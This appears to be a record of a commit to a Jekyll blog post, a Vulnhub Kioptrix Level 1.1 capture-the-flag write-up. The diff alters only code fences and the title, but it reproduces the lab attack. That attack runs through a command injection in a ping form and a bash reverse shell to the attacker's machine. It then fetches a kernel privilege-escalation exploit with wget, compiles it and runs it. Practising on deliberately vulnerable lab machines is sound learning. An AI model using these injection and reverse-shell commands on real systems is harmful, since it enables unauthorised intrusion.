

Before and after one commit to jakebacker/jakebacker.github.io, a Jekyll site: the page built from _posts/2019-10-20-Vulnhub-Kioptrix-Level-1-1.md, in a window 1280 px wide and 1400 px high, scrolled down 4826 px. Shown: the whole window, without its empty margins (248-1034 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Update post

````diff
--- a/_posts/2019-10-20-Vulnhub-Kioptrix-Level-1-1.md
+++ b/_posts/2019-10-20-Vulnhub-Kioptrix-Level-1-1.md
@@ -1,6 +1,6 @@
 ---
 layout: post
-title: Vulnhub - Kioptrix: Level 1.1 (#2)
+title: Vulnhub \- Kioptrix: Level 1.1 (#2)
 ---
 
 This is my first writeup of a Vulnhub VM, so let's see how this goes...
@@ -11,7 +11,7 @@ The VM was run using VMWare and the attacking machine was a Kali Linux VM runnin
 
 ## Recon and Enumeration
 I used netdiscover to find the IP of the box.
-```bash
+```
 root@kali:~# netdiscover
 ```
 ![netdiscover output]({{ site.baseurl }}/images/KioptrixLevel1_1/netdiscover.png "netdiscover output")
@@ -20,7 +20,7 @@ Because I knew that the VM was running in VMWare, I chose the VMWare IP, 192.168
 
 I then ran `nmap` to find open ports with services running on them.
 
-```bash
+```
 root@kali:~# nmap 192.168.56.106
 Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-20 13:18 EDT
 mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
@@ -57,11 +57,11 @@ This brought me to a page containing the output to the ping command.
 
 I ran `; ls` to make sure that I could inject a command and was presented with a directory listing. Next, I injected a reverse shell by first opening a netcat listener on my Kali VM and then putting the shell code into the form.
 
-```bash
+```
 root@kali:~# nc -nvlp 1234
 ```
 
-```bash
+```
 ; bash -i >& /dev/tcp/192.168.56.101/1234 0>&1
 ```
 
@@ -73,7 +73,7 @@ This presented me with a shell on my Kali VM.
 
 I first check the user that I am.
 
-```bash
+```
 bash-3.00$ whoami
 apache
 ```
@@ -82,7 +82,7 @@ I look around a bit to find possible things to exploit, but I can't find anythin
 
 Next, I check the kernel version to see if there are any exploits available.
 
-```bash
+```
 bash-3.00$ uname -a
 Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
 ```
@@ -91,14 +91,14 @@ I found that the box was vulnerable to ['ip_append_data()' Ring0 Privilege Escal
 
 Because neither box was connected to the internet, I used a shared folder on my Kali VM to move the exploit to it. I then used the python SimpleHTTPServer to send the file to the box.
 
-```bash
+```
 root@kali:~# python -m SimpleHTTPServer 80
 Serving HTTP on 0.0.0.0 port 80 ...
 ```
 
 I used `wget` on the box to retrieve the file from my Kali VM.
 
-```bash
+```
 bash-3.00$ cd /tmp
 bash-3.00$ wget 192.168.56.101/9542.c
 --10:41:56--  http://192.168.56.101/9542.c
@@ -114,7 +114,7 @@ Length: 2,643 (2.6K) [text/plain]
 
 I then compiled it according to the instructions and ran it.
 
-```bash
+```
 bash-3.00$ gcc -o 9542 9542.c
 bash-3.00$ ./9542
 [-] exploit failed, try again
@@ -124,7 +124,7 @@ This unfortunately didn't work. I looked at the source code to figure out why, b
 
 I uploaded [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) and ran it to find other potential vulnerabilities with the box.
 
-```bash
+```
 bash-3.00$ python linuxprivchecker.py
 ...
 [*] FINDING RELEVENT PRIVILEGE ESCALATION EXPLOITS...
````
